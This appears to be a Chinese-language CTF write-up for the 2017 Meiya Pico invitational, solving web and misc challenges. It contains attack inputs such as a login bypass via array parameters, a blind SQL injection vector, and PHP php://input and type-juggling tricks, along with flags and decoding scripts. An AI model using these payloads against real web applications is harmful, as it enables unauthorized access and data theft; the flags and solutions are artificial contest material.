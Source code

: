 ```yaml
---
comments: false
title: 美亚柏科邀请赛2017
tags: [ctf]
date: 2017-12-23 20:36:25
categories: writeup
description: 美亚柏科邀请赛2017

---
```


## web

#### web2

> Flag在哪里?
>
> 链    接 http://10sBB7f7sSo9.isec.anscen.cn

burp抓包后向login.php常规 post `user[]=admin&pass[]=a&submit=submit`  。 得到`flag{7538a033d41f442cbae9578d4c189615}`  。

#### web4

> 你找得到Flag吗？
>
> 链    接http://3jhg9aks3.isec.anscen.cn

- fuzz发现某些响应包头部会多出`Set-Cookie: remind=U1FMSQ%3D%3D;` 字样，依此进行盲注。
- 使用intruder自动化，攻击向量为`content=b'||substr((select/**/hex(database())),1,1)='6'#` 
- 处理得到flag

```python
r='p'+'x'*100
r=[i for i in r]
c0=[32,42]
c1=[6,18,30,70,72,76]
c2=[40,60]
c3=[11,15,21,23,25,31,33,35,37,38,41,43,45,49,51,54,57,61,65,67,73,74,75]
c4=[14,20,56]
c5=[16,28,36,46,48,68]
c6=[1,2,3,5,7,13,17,19,22,27,29,39,44,47,53,55,59,63,64,69,71]
c7=[8,9,12,24,52,62,77]
c8=[26,50,58]
c9=[34,66]
ca=[]
cb=[10]
cc=[4]
cd=[78]
ce=[]
cf=[]

call=[c0,c1,c2,c3,c4,c5,c6,c7,c8,c9,ca,cb,cc,cd,ce,cf]
for i in xrange(len(call)):
	for j in call[i]:
		r[j]=hex(i)[2:]
print ''.join(r)
#666c61677b3764356164363738656130393533623036356538376364386237663935616133317d
#flag{7d5ad678ea0953b065e87cd8b7f95aa31}
```

#### web5

> 还没找到flag么
>
> 链	接http://8ah3ka0akj.isec.anscen.cn

查看源码，循序渐进。

```php
view-source://http://8ah3ka0akj.isec.anscen.cn/?key1=php://input&key2=skwerl11&key3=665.99999999999999&key4=99999999999999999999999999999999999999
post Hello hacker!
-----------------------------------------------------------------------
Hello hacker! Do you want the flag?<br>
<!--
	$k1=$_GET['key1'];
	$k2=$_GET['key2'];
	if(file_get_contents($k1)==="Hello hacker!"){
		echo 'welcome! Hacker!<br>';
	}
-->sjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjj
welcome! Hacker!<br><!--
		if(md5($k2)>666666*666666)
		{
			include('ctf.php'); 
		}
-->
Come on, flag is coming<br>flag{0fd14555a5d275b253aff1bae158ca7c}<!--
		$k3=$_GET['key3'];
		$k4=$_GET['key4'];
		if(intval($k3)<666)
		{
			if($k3==666)
			{
				echo 'Come on, flag is coming<br>';
				if($k4>0)
				{
					if(intval($k3+$k4)<666)
						echo $flag;
				}
			}
		}
-->

```

### MISC

#### MISC4

> 到底什么才是打开flag的正确姿势？
>
> 链    接http://1e3g6S39v5M9.isec.anscen.cn

解压`Misc_Flow.rar` 得到`flag.rar` 和`Hints.txt` 两个文件，其中`hint.txt` 提示`Blasting code???No No No!There is another txt file.` ，尝试用`alternatestreamview.exe` 扫描文件夹，得到隐藏的流文件`:password.txt:$DATA` ，提取出内容是`c1d6159d94cc00dfeafde4f5ff7639ade491f7639ade4f5ff7639ade491feaf5ff7639ad` 。

发现`flag.rar` 无法作为压缩包打开，修复文件头为正确的`52617221` 后将上面字符串作为密码即可打开，得到包含flag的图片。`flag{43cca4b3de2097b9558efefb0ecc3588}` 

#### MISC5

> 截获了一份敌军的流量包，据悉暗号就在里面
>
> 链    接http://2S8h7F84v4M0.isec.anscen.cn

过滤出ICMP包，按顺序排列，发现数据包长度可疑。

```python
a=[144,150,139,145,165,91,109,151,122,113,106,119,93,167]
print ''.join([chr(i-42) for i in a])
# flag{1CmPG@M3}
```